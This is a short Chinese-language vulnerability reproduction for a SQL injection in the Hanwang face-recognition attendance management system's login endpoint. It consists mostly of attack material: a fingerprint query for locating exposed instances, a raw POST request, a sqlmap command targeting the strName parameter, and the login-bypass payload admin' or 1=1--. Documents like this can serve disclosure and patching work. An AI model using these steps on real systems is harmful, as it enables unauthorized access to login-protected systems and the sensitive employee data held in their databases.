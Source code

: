 # 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

```
汉王人脸考勤管理系统
```

## 网络测绘

```
title=""汉王人脸考勤管理系统""
```

## 漏洞复现



登录界面如下



![](images/202202101908168.png)



请求包如下



```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```



其中strName参数存在注入



```shell
sqlmap -r postwang.txt -p strName  --current-user
```



![](images/202202101908817.png)



```plain
user: admin' or 1=1--
pass: admin
```



万能密码绕过登录



![](images/202202101908955.png)

## 